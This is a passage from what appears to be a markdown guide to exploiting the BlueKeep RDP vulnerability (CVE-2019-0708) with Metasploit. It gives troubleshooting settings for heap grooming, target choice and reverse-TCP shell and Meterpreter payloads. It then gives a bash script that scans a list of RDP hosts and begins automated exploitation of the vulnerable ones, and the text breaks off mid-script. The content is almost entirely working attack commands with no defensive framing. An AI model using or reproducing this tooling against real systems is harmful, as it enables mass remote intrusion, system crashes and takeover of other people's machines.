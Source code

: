 ## Troubleshooting Common Issues

### System Crashes

BlueKeep exploitation can cause target system crashes due to kernel memory manipulation. If crashes occur:

```bash
# Reduce groom size to minimize memory impact
set GROOM_ALLOCATIONS 25

# Try different target specifications
set TARGET 0  # Try PowerShell-based target
# or
set TARGET 1  # Try alternative native target

# Enable debugging for more information
set VERBOSE true
```

### Payload Failures

```bash
# Try different payload types
set PAYLOAD windows/x64/shell/reverse_tcp
# or
set PAYLOAD windows/x64/meterpreter/reverse_tcp

# Adjust connection timing
set ReverseConnectRetries 10
set ReverseAllowProxy true
```

## Advanced Exploitation Script

### Multi-target Automation

```bash
#!/bin/bash
# bluekeep_multi_target.sh

TARGET_FILE="rdp_targets.txt"
VULNERABLE_FILE="vulnerable_hosts.txt"

echo "[*] Scanning RDP targets for BlueKeep vulnerability..."

while read target; do
    echo "[*] Checking $target"

    # Use Metasploit to check vulnerability
    msfconsole -q -x "use auxiliary/scanner/rdp/cve_2019_0708_bluekeep; set RHOSTS $target; run; exit" | grep "The target is vulnerable" && {
        echo "[+] $target is VULNERABLE"
        echo $target >> $VULNERABLE_FILE
    } || echo "[-] $target is not vulnerable"

done < $TARGET_FILE

echo "[*] Starting exploitation of vulnerable hosts..."
while read vulnerable_host; do
    echo "[*] Exploiting $vulnerable_host"

    # Create resource file for automated exploitation
    cat > /tmp/bluekeep_$vulnerable_host.rc << EOF
```